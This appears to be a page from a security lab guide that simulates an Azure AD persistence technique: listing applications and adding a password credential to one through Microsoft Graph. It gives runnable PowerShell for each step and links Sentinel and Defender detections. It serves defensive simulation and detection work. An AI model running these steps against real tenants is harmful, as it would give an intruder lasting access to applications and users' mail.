

# Add Credentials to Application

Once a threat actor identifies an application of interest to authenticate to, new or alternate credentials can be added to it. This allows the adversary to use custom credentials and maintain persistence.

Based on [Microsoft documentation](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-client-creds-grant-flow), during the authentication flow an application must present credentials. 

This authentication consists of two elements:
* An Application ID, sometimes referred to as a `Client ID`. A GUID that uniquely identifies the app's registration in your Active Directory tenant.
* A secret associated with the application ID. You can either generate a client secret string (similar to a password) or specify an X509 certificate (which uses its public key).

[An application object is the global representation of an application for use across all tenants, and the service principal is the local representation for use in a specific tenant](https://docs.microsoft.com/en-us/azure/active-directory/develop/app-objects-and-service-principals). A service principal must be created in each tenant where the application is used, enabling it to establish an identity for sign-in and/or access to resources being secured by the tenant.

## Simulate & Detect
1.	[List Existing Applications](#list-existing-applications)
2.	[Get Application Id](#get-application-id)
3.	[Add credentials to application](#add-credentials-to-application)
    * [Detect credentials added to an application](#detect-credentials-added-to-an-application)

## Preconditions

* Endpoint: AD FS Server (ADFS01)
  * Even when this step would happen outside of the organization, we can use the same PowerShell session where we [got a Microsoft Graph oauth access token](../persistence/getOAuthTokenWithSAMLAssertion.md).
* Microsoft Graph OAuth access token
  * Use the output from the [previous step](../persistence/getOAuthTokenWithSAMLAssertion.md) as the variable `$OAuthAccessToken`. Make sure you request the access token with the public `Azure Active Directory PowerShell Application`. That application has the right permissions to execute all the simulation steps in this document.
## List Existing Azure AD Applications

**Preconditions**
* Authorization:
    * Service: Azure Microsoft Graph
    * Permission Type: Delegated
    * Permissions (One of the following):
        * Application.Read.All
        * Application.ReadWrite.All
        * Directory.Read.All

Open PowerShell as administrator and use the Microsoft Graph oauth access token to list the current Azure AD applications in a tenant.

```PowerShell
$headers = @{"Authorization" = "Bearer $OAuthAccessToken"}
$params = @{
    "Method"  = "Get"
    "Uri"     = "https://graph.microsoft.com/v1.0/applications"
    "Headers" = $headers
}
$applications = Invoke-RestMethod @params
$applications
```


Next, filter the results and select the Azure AD application you want to grant permissions to. If you followed the instructions to [register one Azure AD application](../../2_deploy/_helper_docs/registerAADAppAndSP.md) after deploying the lab environment, your app should be named `SimuLandApp`. If you used a different name, make sure you look for it with the right name in the following PowerShell command:

```PowerShell
$Application = $applications.value | Where-Object {$_.displayName -eq "SimuLandApp"}
$Application
```


## Get Application Id

Use the `$application` variable to get the application object id.

```PowerShell
$appObjectId = $application.id
$appObjectId
```

## Add Credentials to Application

**Preconditions**
* Authorization
    * Service: Azure Microsoft Graph
    * Permission Type: Delegated
    * Permissions: Application.ReadWrite.All

### Adding Credentials (Password) to an Application

Use the [Microsoft Graph Application addPassword API](https://docs.microsoft.com/en-us/graph/api/application-addpassword?view=graph-rest-1.0&tabs=http) to add credentials to an application

```PowerShell
$pwdCredentialName = 'SimuLandCreds'
$headers = @{
    "Content-Type"  = "application/json"
    "Authorization" = "Bearer $OAuthAccessToken"
}
$body = @{
    passwordCredential = @{ displayName = "$($pwdCredentialName)" }
}
$params = @{
    "Method"  = "Post"
    "Uri"     = "https://graph.microsoft.com/v1.0/applications/$appObjectId/addPassword"
    "Body"    = $body | ConvertTo-Json –Compress
    "Headers" = $headers
}
$credentials = Invoke-RestMethod @params
$credentials

$secret = $credentials.secretText
$secret
```
 


### Verify New Application Credentials

Browse to [Azure Portal](https://portal.azure.com/) and go to Azure AD > App Registrations > `SimuLandApp` > `Certificates & secrets` to verify the task.



## Detect Credentials Added to an Application

### Azure Sentinel Detection Rules

* [New access credential added to Application or Service Principal](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/AuditLogs/NewAppOrServicePrincipalCredential.yaml)
* [First access credential added to Application or Service Principal where no credential was present](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/AuditLogs/FirstAppOrServicePrincipalCredential.yaml)

### Microsoft 365 Hunting Queries

* [Credentials were added to an Azure AD application after 'Admin Consent' permissions granted [Nobelium]](https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/773ebb498e0aa897678be98c34ffa56359bf29d9/Persistence/CredentialsAddAfterAdminConsentedToApp%5BNobelium%5D.md)

### Azure AD Workbook: `Sensitive Operations Report`
1.	Browse to [Azure Portal](https://portal.azure.com/)
2.	Azure AD > `Workbooks` > `Sensitive Operations Report`


### Microsoft Cloud App Security
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.	Go to `More Resources` and click on `Microsoft Cloud App Security`.
3.	`Alerts`
 


## Output

Use the variable `$secret` to authenticate to the compromised application.

* You can use a SAML assertion and the `$secret` value to get an OAuth access token with the application as the client. [Get the OAuth access token via the SAML bearer assertion flow](../persistence/getOAuthTokenWithSAMLAssertion.md). You can get a token to access the Microsoft Graph API.

If the application has delegated permissions to read mail, you can use the OAuth access token from the previous step to read mail of the signed-in user:

* [Mail access with delegated permissions](../collection/mailAccessDelegatedPermissions.md)

# References
* [OAuth 2.0 client credentials flow on the Microsoft identity platform | Microsoft Docs](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-client-creds-grant-flow)
* [Use an app identity to access resources - Azure Stack Hub | Microsoft Docs](https://docs.microsoft.com/en-us/azure-stack/operator/azure-stack-create-service-principals?view=azs-2008&tabs=az1%2Caz2&pivots=state-disconnected)
